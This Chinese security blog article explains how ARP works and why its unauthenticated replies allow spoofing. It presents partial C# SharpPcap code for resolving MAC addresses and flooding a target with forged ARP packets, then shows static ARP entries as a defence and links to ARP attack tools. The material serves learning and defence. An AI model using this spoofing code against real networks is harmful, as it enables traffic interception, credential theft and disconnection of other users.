





[freebuf稿件](https://www.freebuf.com/articles/network/210852.html)
## 引言
未知攻，焉知防，本文仅研究ARP欺骗攻击防护用！

---
## 什么是ARP协议
官话：
在以太网协议中规定，同一局域网中的一台主机要和另一台主机进行直接通信，必须要知道目标主机的MAC地址。而在TCP/IP协议中，网络层和传输层只关心目标主机的IP地址。这就导致在以太网中使用IP协议时，数据链路层的以太网协议接到上层IP协议提供的数据中，只包含目的主机的IP地址。于是需要一种方法，根据目的主机的IP地址，获得其MAC地址。这就是ARP协议要做的事情。所谓地址解析（address resolution）就是主机在发送帧前将目标IP地址转换成目标MAC地址的过程。
-- Extracted from WikiPedia.

**通俗点说，在局域网中通信时使用的是MAC地址，而不是常见的IP地址。所以在局域网的两台主机间通信时，必须要知道对方的MAC地址，这就时ARP协议要做的事：将IP地址转换为MAC地址。**

从以太网帧来看，以太网帧分为：以太网首部、上层数据部分、以太网尾，三部分。在物理层传输的数据都是使用以太网帧来封装起来传输的（通俗的说就是在数据包头加上以太网首部，数据包尾加上以太网尾），而网络传输是分层进行的，也就是物理层只处理物理层的数据，对于以太网帧中的上层数据部分并不关心。在以太网帧中，以太网首部中存放了目的主机的MAC地址和源主机的MAC用于在以太网中传输数据。所以，在以太网通信中，只知道对方的IP地址是不可以通信的，因为IP地址属于第三层（网络层）的地址，对于物理层的以太网帧来说IP地址属于上层数据部分，以太网是无法识别的，所以就要使用ARP协议获取到对方的MAC地址进行通信。



---

## ARP是如何工作的？
举个栗子：现在有两台处于同一局域网的主机A、B。


| 主机 | IP地址 | MAC地址 |
|-|-|-|
| A | 192.168.1.1 | 0A-11-22-33-44-01|
| B | 192.168.1.2 | 0A-11-22-33-44-02|

现在主机A要和主机B通信，那么根据上面的介绍可以知道，主机A仅有主机B的IP地址是不可以通信的，还要知道主机B的MAC地址，下面介绍主机A是如何通过ARP协议获取主机B的MAC地址的：

第1步：根据主机A上的路由表内容，IP确定用于访问主机B的转发IP地址是192.168.1.2。然后A主机在自己的本地ARP缓存中检查主机B的匹配MAC地址。

第2步：如果主机A在ARP缓存中没有找到映射，它将询问192.168.1.2的硬件地址，从而将ARP请求帧广播到本地网络上的所有主机。源主机A的IP地址和MAC地址都包括在ARP请求中。本地网络上的每台主机都接收到ARP请求并且检查是否与自己的IP地址匹配。如果主机发现请求的IP地址与自己的IP地址不匹配，它将丢弃ARP请求

第3步：主机B确定ARP请求中的IP地址与自己的IP地址匹配，则将主机A的IP地址和MAC地址映射添加到本地ARP缓存中。

第4步：主机B将包含其MAC地址的ARP回复消息直接发送回主机A。

第5步：当主机A收到从主机B发来的ARP回复消息时，会用主机B的IP和MAC地址映射更新ARP缓存。本机缓存是有生存期的，生存期结束后，将再次重复上面的过程。主机B的MAC地址一旦确定，主机A就能向主机B发送IP通信了。

了解ARP协议的工作原理后可以分析出其存在一个严重的安全问题：
在ARP回复时，发送请求包的主机A并不会验证ARP回复包的真实性，也就是不能判断回复主机A的是不是主机B。由此引出一个局域网攻击方式ARP欺骗。

---

## 什么是ARP欺骗

举个栗子：


| 主机	| IP | MAC |
|---|---|---|
|A | 192.168.1.1 | 0A-11-22-33-44-01|
|B | 192.168.1.2 | 0A-11-22-33-44-02|
|C | 192.168.1.3 | 0A-11-22-33-44-03|

1.主机A要和主机C通信，主机A发出ARP包询问谁是192.168.1.3?请回复192.168.1.1

2.这时主机B在疯狂的向主机A回复，我是192.168.1.3，我的地址是0A-11-22-33-44-02

3.由于ARP协议不会验证回复者的身份，造成主机A错误的将192.168.1.3的MAC映射为0A-11-22-33-44-02。

**ARP欺骗的分类**
1.主机欺骗，如同上面的栗子，主机B欺骗局域网中的主机A。
2.网关欺骗，局域网中的主机欺骗网关，从而获取其他主机的进流量。

**ARP攻击的危害**
1.造成局域网中的其他主机断网。
2.劫持局域网中其他主机或网关的流量，获取敏感信息，甚至引发进一步的DNS欺骗等。
---
## 如何实现ARP攻击

**找轮子**
例如kali下的arpspoof、ettercap等工具。

**造轮子**
首先介绍下LibPacp：
LibPcap是一个UNIX下的C函数库，它提供的API，能获取和过滤从任意一块网卡在数据链路层上的帧。不同的UNIX系统有不同的架构去处理数据链路层上的数据帧，所以程序员如果想要写一个能运行在UNIX上的、直接读取或者操作数据链路层上的帧的应用程序，他就不得不专门为这个特点版本的UNIX写一个访问帧的函数。libpcap的目的就是提供一个抽象层，这样程序员就能编写可运行在所有版本的UNIX上的包获取和分析工具了。

然后是WinPcap:
WinPcap是一个专为Windows系统设计的、基于libpcap的库。大多数Windows下的网络流量分析工具都是基于WinPcap开发的，比如Wireshark。

接着是SharpPcap：
SharpPcap是封装好WinPcap和LibPcap的C#库。

除了知道开发用的库还要知道以太网帧和ARP报文的结构（SharpPcap提供的封装好的方法，为了学习还是自己造轮子）：


第一部分：以太网首部
也可以说是以太网帧的头部，这部分包括了目标主机的MAC地址、源主机的MAC地址、上层协议类型
第二部分：ARP报文
这部分中的第20位，0x00,0x01表示ARP请求包,0x00,0x02表示应答包。
由于以太网帧最短长度为64个字节，由于ARP报文加上以太网头不足64个字节，所以要填充18个字节的0x00
第三部分：FCS帧校验序列
即计算机网络数据链路层的协议数据单元（帧）的尾部字段，是一段4个字节的循环冗余校验码。源节点发送数据帧时，由帧的帧头和数据部分计算得出FCS，目的节点接收到后，用同样的方式再计算一遍FCS，如果与接收到的FCS不同，则认为帧在传输过程中发生了错误，从而选择丢弃这个帧。

知道了ARP欺骗的原理和ARP数据包的格式后，只要构造出一个ARP欺骗包，重复向目标主机发出就可以了。
原理很简单，实现起来稍有一点难度：
首先要先要获取本机的IP地址和MAC地址，下面的Deemo中给出了SharpPacp获取本机IPv4地址和MAC地址的方法:



代码分析：
LibPcapLiveDeviceList.Instance获取本机中所有网卡的List
device.Address获取房卡中所有的地址信息（包括IPv4，IPv6，MAC）
Sockaddr.AddressType.AF_INET_AFINET6用于判断是不是IP地址([官方解释](http://sharppcap.sourceforge.net/htmldocs/SharpPcap.LibPcap/Sockaddr+AddressTypes.html))
Sockaddr.AddressType.AF_INET_AFINET6用于判断是不是MAC地址

接下来还要获取到目标主机的地址信息，IP地址和MAC可以手动指定，为了更加人性化的入狱操作，当然要根据输入的IP自动获得MAC地址了，原理如下：
知道ARP原理了，获取对方的MAC地址只要向对方发送一个ARP请求包然后监听网卡就可以了。
代码如下：

```csharp
/// <summary>
/// 发送ARP请求包，根据返回的应答包获取MAC地址
/// </summary>
public void ScanLAN(string recipientIP,string senderMAC,string senderIP)
{
	// 构造Arp请求包
	var arpPackets = BuildRequest(IPAddress.Parse(recipientIP), PhysicalAddress.Parse(senderMAC), IPAddress.Parse(senderIP));

	//创建一个“tcpdump”过滤器，只允许读取arp回复
	String arpFilter = "arp and ether dst " + senderMAC;

	//open the device with 20ms timeout 打开设备，设置超时时间20ms
	_device.Open(DeviceMode.Promiscuous, 20);

	//set the filter    设置过滤器
	_device.Filter = arpFilter;

	//初始化扫描线程
	scanThread = new Thread(() =&gt;
	{
		var lastRequestTime = DateTime.FromBinary(0);
		var requestInterval = new TimeSpan(0, 0, 1);
		var timeoutDateTime = DateTime.Now + timeout;
		while (DateTime.Now &lt; timeoutDateTime)
		{
			if (requestInterval &lt; (DateTime.Now - lastRequestTime))
			{
				// inject the packet to the wire 发送请求包
				_device.SendPacket(arpPackets);
				lastRequestTime = DateTime.Now;
			}

			//read the next packet from the network
			var reply = _device.GetNextPacket();    //获取网卡中的下一个包，过滤出ARP

			if (reply == null)  //下一个包为空时，跳过本次循环
			{
				continue;
			}

			// parse the packet 解析数据包
			var packet = PacketDotNet.Packet.ParsePacket(reply.LinkLayerType, reply.Data);

			// is this an arp packet? 这是一个arp数据包吗？
			var arpPacket = PacketDotNet.ARPPacket.GetEncapsulated(packet);
			if (arpPacket == null)
			{
				continue;
			}

			//if this is the reply we're looking for, stop  //ARP包中的源主机IP 等于 UI中的目标主机IP
			if (arpPacket.SenderProtocolAddress.ToString().Equals(recipientIP))
			{
				// 通知事件 -更新靶机MAC
				if (ResolvedEvent != null)
				{
					ResolvedEvent(this, arpPacket.SenderHardwareAddress);
				}
				break;
			}
		}

		_device.Close();    //关闭设备
	});
	scanThread.Start(); //启动线程
}
```
代码解析：
创建一个线程专门用来发送ARP请求包和解析网卡中收到的ARP应答包，启动线程发送一个包后，检测网卡数据，并过滤出所有网卡中的ARP数据包，然后对包进行解析，如果包中的源主机IP是构造的包中的目标主机证明这个包是刚才发送的请求包的应答包，然后1.通知事件更新UI、2.结束线程、3.关闭设备

得到本机地址信息和目标主机的地址信息后，只要将之前构造的包中的相应的地址信息体替换掉就好了


除了要换掉包中的地址信息，还要在尾部加上FCS校验码：
什么是FCS校验码？
FCS：Frame Check Sequence（帧校验序列），俗称帧尾，即计算机网络数据链路层的协议数据单元（帧）的尾部字段，是一段4个字节的循环冗余校验码。源节点发送数据帧时，由帧的帧头和数据部分计算得出FCS，目的节点接收到后，用同样的方式再计算一遍FCS，如果与接收到的FCS不同，则认为帧在传输过程中发生了错误，从而选择丢弃这个帧。
FCS提供了一种错误检测机制，用来验证帧在传输过程中的完整性。
FCS采用了循环冗余校验CRC32校验算法，那么什么是CRC校验呢？
CRC校验通俗点讲，就是将给出的二进制数据与一个固定的多项式进行莫2除计算，得出的余数就是CRC校验码。
举个栗：计算4位的CRC校验码



知道CRC计算原理后，再来看一下CRC-4的实现:
原始的 CRC 校验算法:
根据多项式除法，我们就可以得到原始的 CRC 校验算法。假设生成多项式 g(x) 是 r 阶的，原始数据存放在 data 中，长度为 len 个 bit ， reg 是 r+1 位的变量。 以 CRC-4 为例，生成多项式 g(x)=x^4 + x + 1 ，对应了一个 5bits 的二进制数字 10011 ，那么 reg 就是 5 bits 。

reg[1] 表明 reg 的最低位， reg[r+1] 是 reg 的最高位。

通过反复的移位和进行除法，那么最终该寄存器中的值去掉最高一位就是我们所要求的余数。所以可以将上述步骤用下面的流程描述：
```csharp
reg = 0;
data = data追加r个;
pos = 1;
while(pos &lt;= len)
{
    if(reg[r+1] == 1) // 表明reg可以除以g(x)
    {
        // 只关心余数，根据上面的算法规则可知就是XOR运算
        reg = reg XOR g(x);
    }
    // 移出最高位，移入新数据
    reg = (reg&lt;&lt;1) | (data[pos]);
    pos++;
}
return reg; // reg中的后r位存储的就是余数
```
上面只是简述一下CRC算法的原理，如果采用CRC-4的原始算法实现速度很慢计算一个ARP数据包的CRC32码大约亲测需要十几秒左右的时间，由于CRC32算法实现比较复杂，这里不再做论述，直接上大神写的CRC-32算法实现代码：
```csharp
//CRC32计算表
UInt32[] crcTable =
{

  0x00000000, 0x04c11db7, 0x09823b6e, 0x0d4326d9, 0x130476dc, 0x17c56b6b, 0x1a864db2, 0x1e475005,

  0x2608edb8, 0x22c9f00f, 0x2f8ad6d6, 0x2b4bcb61, 0x350c9b64, 0x31cd86d3, 0x3c8ea00a, 0x384fbdbd,

  0x4c11db70, 0x48d0c6c7, 0x4593e01e, 0x4152fda9, 0x5f15adac, 0x5bd4b01b, 0x569796c2, 0x52568b75,

  0x6a1936c8, 0x6ed82b7f, 0x639b0da6, 0x675a1011, 0x791d4014, 0x7ddc5da3, 0x709f7b7a, 0x745e66cd,

  0x9823b6e0, 0x9ce2ab57, 0x91a18d8e, 0x95609039, 0x8b27c03c, 0x8fe6dd8b, 0x82a5fb52, 0x8664e6e5,

  0xbe2b5b58, 0xbaea46ef, 0xb7a96036, 0xb3687d81, 0xad2f2d84, 0xa9ee3033, 0xa4ad16ea, 0xa06c0b5d,

  0xd4326d90, 0xd0f37027, 0xddb056fe, 0xd9714b49, 0xc7361b4c, 0xc3f706fb, 0xceb42022, 0xca753d95,

  0xf23a8028, 0xf6fb9d9f, 0xfbb8bb46, 0xff79a6f1, 0xe13ef6f4, 0xe5ffeb43, 0xe8bccd9a, 0xec7dd02d,

  0x34867077, 0x30476dc0, 0x3d044b19, 0x39c556ae, 0x278206ab, 0x23431b1c, 0x2e003dc5, 0x2ac12072,

  0x128e9dcf, 0x164f8078, 0x1b0ca6a1, 0x1fcdbb16, 0x018aeb13, 0x054bf6a4, 0x0808d07d, 0x0cc9cdca,

  0x7897ab07, 0x7c56b6b0, 0x71159069, 0x75d48dde, 0x6b93dddb, 0x6f52c06c, 0x6211e6b5, 0x66d0fb02,

  0x5e9f46bf, 0x5a5e5b08, 0x571d7dd1, 0x53dc6066, 0x4d9b3063, 0x495a2dd4, 0x44190b0d, 0x40d816ba,

  0xaca5c697, 0xa864db20, 0xa527fdf9, 0xa1e6e04e, 0xbfa1b04b, 0xbb60adfc, 0xb6238b25, 0xb2e29692,

  0x8aad2b2f, 0x8e6c3698, 0x832f1041, 0x87ee0df6, 0x99a95df3, 0x9d684044, 0x902b669d, 0x94ea7b2a,

  0xe0b41de7, 0xe4750050, 0xe9362689, 0xedf73b3e, 0xf3b06b3b, 0xf771768c, 0xfa325055, 0xfef34de2,

  0xc6bcf05f, 0xc27dede8, 0xcf3ecb31, 0xcbffd686, 0xd5b88683, 0xd1799b34, 0xdc3abded, 0xd8fba05a,

  0x690ce0ee, 0x6dcdfd59, 0x608edb80, 0x644fc637, 0x7a089632, 0x7ec98b85, 0x738aad5c, 0x774bb0eb,

  0x4f040d56, 0x4bc510e1, 0x46863638, 0x42472b8f, 0x5c007b8a, 0x58c1663d, 0x558240e4, 0x51435d53,

  0x251d3b9e, 0x21dc2629, 0x2c9f00f0, 0x285e1d47, 0x36194d42, 0x32d850f5, 0x3f9b762c, 0x3b5a6b9b,

  0x0315d626, 0x07d4cb91, 0x0a97ed48, 0x0e56f0ff, 0x1011a0fa, 0x14d0bd4d, 0x19939b94, 0x1d528623,

  0xf12f560e, 0xf5ee4bb9, 0xf8ad6d60, 0xfc6c70d7, 0xe22b20d2, 0xe6ea3d65, 0xeba91bbc, 0xef68060b,

  0xd727bbb6, 0xd3e6a601, 0xdea580d8, 0xda649d6f, 0xc423cd6a, 0xc0e2d0dd, 0xcda1f604, 0xc960ebb3,

  0xbd3e8d7e, 0xb9ff90c9, 0xb4bcb610, 0xb07daba7, 0xae3afba2, 0xaafbe615, 0xa7b8c0cc, 0xa379dd7b,

  0x9b3660c6, 0x9ff77d71, 0x92b45ba8, 0x9675461f, 0x8832161a, 0x8cf30bad, 0x81b02d74, 0x857130c3,

  0x5d8a9099, 0x594b8d2e, 0x5408abf7, 0x50c9b640, 0x4e8ee645, 0x4a4ffbf2, 0x470cdd2b, 0x43cdc09c,

  0x7b827d21, 0x7f436096, 0x7200464f, 0x76c15bf8, 0x68860bfd, 0x6c47164a, 0x61043093, 0x65c52d24,

  0x119b4be9, 0x155a565e, 0x18197087, 0x1cd86d30, 0x029f3d35, 0x065e2082, 0x0b1d065b, 0x0fdc1bec,

  0x3793a651, 0x3352bbe6, 0x3e119d3f, 0x3ad08088, 0x2497d08d, 0x2056cd3a, 0x2d15ebe3, 0x29d4f654,

  0xc5a92679, 0xc1683bce, 0xcc2b1d17, 0xc8ea00a0, 0xd6ad50a5, 0xd26c4d12, 0xdf2f6bcb, 0xdbee767c,

  0xe3a1cbc1, 0xe760d676, 0xea23f0af, 0xeee2ed18, 0xf0a5bd1d, 0xf464a0aa, 0xf9278673, 0xfde69bc4,

  0x89b8fd09, 0x8d79e0be, 0x803ac667, 0x84fbdbd0, 0x9abc8bd5, 0x9e7d9662, 0x933eb0bb, 0x97ffad0c,

  0xafb010b1, 0xab710d06, 0xa6322bdf, 0xa2f33668, 0xbcb4666d, 0xb8757bda, 0xb5365d03, 0xb1f740b4

};

// 计算CRC32码
public uint GetCRC32(byte[] bytes)
{
	uint iCount = (uint)bytes.Length;
	uint crc = 0xFFFFFFFF;

	for (uint i = 0; i &lt; iCount; i++)
	{
		crc = (crc &lt;&lt; 8) ^ crcTable[(crc &gt;&gt; 24) ^ bytes[i]];
	}
	return crc;
}
```
然后将计算得出的CRC32码粘到构造好的包尾就可以了。
```csharp
//计算CRC32校验码
UInt32 u = GetCRC32(packet);

byte[] crc = new byte[4];

//Uint转Byte[4] CRC32 is Unit To Byte[4]
crc[0] = (byte)(u &gt;&gt; 24);
crc[1] = (byte)(u &gt;&gt; 16);
crc[2] = (byte)(u &gt;&gt; 8);
crc[3] = (byte)(u);

//填充FCS校验位
for (int i = 0; i &lt; crc.Length; i++)
{
	p1[p1.Length - 1 - 4 + i] = crc[i];
}
return p1;
```
到此，ARP数据包的构造就算完成了。

最后要实现ARP的欺骗，只要利用SharpPacp提供的发包方法，在线程中疯狂发包就可以了。
```
/// &lt;summary&gt;
/// arp欺骗：对内网PC进行欺骗
/// &lt;/summary&gt;
/// &lt;param name="getwayIP"&gt;&lt;/param&gt;
/// &lt;param name="wrongMac"&gt;&lt;/param&gt;
/// &lt;param name="destIP"&gt;&lt;/param&gt;
/// &lt;param name="destMac"&gt;&lt;/param&gt;
public void StartARPSpoofing(string senderIP, string recipientIP,string senderMAC,string recipientMAC)
{
	mIP = IPTOBYTE(recipientIP);
	sIP = IPTOBYTE(senderIP);
	mMAC = MACTOBYTE(recipientMAC);
	sMAC = MACTOBYTE(senderMAC);

	//构造ARP欺骗包
	packet = getPacket(sIP, mIP, sMAC, mMAC);

	//初始化发包线程
	sendThread = new Thread(SendPack);
	//启动线程
	sendThread.Start();
}
/// &lt;summary&gt;
/// 发送数据
/// &lt;/summary&gt;
public void SendPack()
{
	_device.Open();
	var timeoutDateTime = DateTime.Now + timeout;

	//发送数据包
	while (true)
	{
		_device.SendPacket(packet);
		time++;
		// 通知事件 -更新发包次数
		if (ResolvedEvent != null)
		{
			ResolvedTimeEvent(this, time);
		}
		Thread.Sleep(100);  //线程休眠100ms
	}
}
```
## 正文：如何防御ARP欺骗

ARP欺骗是通过重复应答实现的，那么只需要在本机添加一条静态的ARP映射，这样就不需要询问网关MAC地址了，这种方法只对主机欺骗有效。对于网关欺骗还需要在网关中也添加一条到主机的静态ARP映射。
1.用管理身份运行命令提示符；输入netsh i i show in，查看一下本机有哪些网络连接
```Shell
netsh i i show in
```



2.查看一下网关的MAC地址。注意如果正遭受ARP欺骗攻击，通过此方法查处的可能是虚假的MAC地址。输入arp -a命令查询本机的arp映射表，如果找不到网关的信息，可以先ping一下网关。



3.输入：netsh -c "i i" add neighbors 连接的Idx号 网关IP 网关MAC 添加一条静态映射,我已经添加过了，所以会显示 对象已存在
```csharp
netsh -c "i i" add neighbors 连接的Idx号 网关IP 网关MAC
netsh -c "i i" add neighbors 9 10.60.12.1 4c-5e-0c-64-73-f5
```


## 参考资料
[SharpPcap官方文档](http://sharppcap.sourceforge.net/htmldocs/index.html)
[PacketDotNet](https://github.com/chmorgan/packetnet)（使用PacketDotNet可以很方便的构造出数据包，只需几个参数）
[SharpPcapTool](https://gitee.com/week233/SharpPcapTool_back.git)（大神写的局域网欺骗工具，有个大坑，没有做物理机的虚拟机网卡过滤，当遍历到虚拟机网卡的网关IP时会抛异常，因为VMware的虚拟机网卡没有网关地址）
[牢底坐穿工具箱](https://gitee.com/week233/ARPAttack.git)（参考了部分大神的代码，已经过滤掉了VMware的虚拟机网卡）